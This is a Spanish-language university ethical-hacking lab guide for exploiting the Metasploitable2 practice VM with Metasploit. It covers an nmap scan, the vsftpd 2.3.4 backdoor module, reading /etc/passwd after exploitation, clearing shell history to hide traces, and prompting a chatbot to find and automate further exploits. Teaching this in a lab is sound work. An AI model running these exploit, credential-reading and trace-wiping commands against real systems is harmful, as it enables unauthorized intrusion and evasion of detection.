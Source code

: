 # Laboratorio Semama 9 - Explotación de Vulnerabilidades con Metasploit y KaliGPT (CY-203 Hackeo Ético)

**Duración estimada:** 1.5 horas  
**Modalidad:** Práctica guiada en Kali Linux  
**Objetivo:** Aplicar técnicas de explotación de vulnerabilidades utilizando **Metasploit Framework**, analizar cargas (payloads), automatizar ataques y utilizar inteligencia artificial (**KaliGPT**) como apoyo para decisiones estratégicas.

---

## Introducción

Durante este laboratorio nos enfocaremos en la **fase de ataque** en el ciclo de hacking ético. Aprovecharemos vulnerabilidades detectadas previamente para **obtener acceso, control o extraer información** del sistema objetivo.

Utilizaremos **Metasploit**, un framework de explotación profesional y gratuito ampliamente utilizado por auditores de seguridad, y complementaremos la estrategia con **KaliGPT** para guiar y afinar el ataque. El entorno objetivo será la máquina **Metasploitable2**, desplegada como máquina virtual (VM) en VirtualBox o VMware.

### Conceptos básicos de Metasploit

- **RHOSTS**: Dirección IP del objetivo (por ejemplo, `192.168.50.110`)
- **RPORT**: Puerto en el que corre el servicio vulnerable (por ejemplo, `21` para FTP)
- **LHOST**: Dirección IP del atacante (la IP de Kali Linux)
- **LPORT**: Puerto local que usará el atacante para recibir la conexión reversa (por ejemplo, `4444`)
- **PAYLOAD**: Código que se ejecutará en la máquina víctima una vez explotada (por ejemplo, una shell reversa)
- **Exploit**: Código que aprovecha una vulnerabilidad
- **Session**: Conexión activa con la máquina víctima obtenida luego del exploit

---

## Parte 0: Preparación del Entorno con Metasploitable2 en VM

### 0.1 Requisitos previos

- VirtualBox o VMware instalado
- Kali Linux operativo (como host o VM)
- Archivo `.vmdk` o `.ova` de Metasploitable2

### 0.2 Descargar Metasploitable2

Descarga desde:
- https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

Descomprime el archivo `.zip` para obtener el `.vmdk`.

### 0.3 Crear VM en VirtualBox

1. Abrir VirtualBox y crear nueva VM:
   - Tipo: **Linux**
   - Versión: **Ubuntu (32-bit)**
2. Asignar 1 GB de RAM mínimo
3. Seleccionar disco existente → cargar el `.vmdk`
4. Configurar red en **Adaptador Puente** o **Red Interna**

### 0.4 Iniciar y obtener IP de la VM

Usuario: `msfadmin`  
Contraseña: `msfadmin`

Ejecutar:
```bash
ifconfig
```
Anota la IP, por ejemplo: `192.168.50.110`

---

## Parte 1: Verificación de Metasploit Framework

En Kali Linux ya viene preinstalado:

```bash
msfconsole
```

Si no carga, ejecutar:

```bash
sudo systemctl start postgresql
msfdb init
```

---

## Parte 2: Reconocimiento con Nmap

Desde Kali escanea:

```bash
nmap -sV -p- 192.168.50.110
```

Ejemplo de servicios detectados:
- FTP (21)
- SSH (22)
- Telnet (23)
- HTTP (80)
- MySQL (3306)
- Apache Tomcat, Samba, etc.

---

## Parte 3: Ejecución de Exploits con Metasploit

### 3.1 Exploit: FTP vsftpd 2.3.4 backdoor

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP del VM Objetivo>
set RPORT 21
run
```

Si es exitoso, se abrirá una shell remota.

Verifica shell:
```bash
whoami
id
uname -a
```

---

## Parte 4: Post-Explotación

Una vez obtenida la shell, ejecuta:

```bash
id
hostname
cat /etc/passwd
```

---

## Parte 5: Eliminación de Rastros (simulado)

```bash
history -c
rm ~/.bash_history
```

> Esto es con fines educativos y no debe realizarse sin permisos.

---

## Refuerzo con KaliGPT

Usa: [https://chatgpt.com/g/g-uRhIB5ire-kali-gpt](https://chatgpt.com/g/g-uRhIB5ire-kali-gpt)

Ejemplos:
```text
¿Qué otros exploits puedo usar en Metasploitable2?
¿Cómo automatizo la explotación de Apache?
```

---

## Entregables

- Captura de `msfconsole` con exploit exitoso diferente al efectuado en este laboratorio
- Captura de `whoami` o `id`
- Evidencia del uso de KaliGPT
- Reflexión: ¿Qué aprendiste del uso de Metasploitable2?

---

## Recursos

- [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)
- [https://docs.rapid7.com/metasploit/](https://docs.rapid7.com/metasploit/)
- [https://chatgpt.com/g/g-uRhIB5ire-kali-gpt](https://chatgpt.com/g/g-uRhIB5ire-kali-gpt)

---

**Profesor:** Esteban Mata Morales  
**Curso:** CY-203 Hackeo Ético  
**Universidad Fidélitas de Costa Rica**
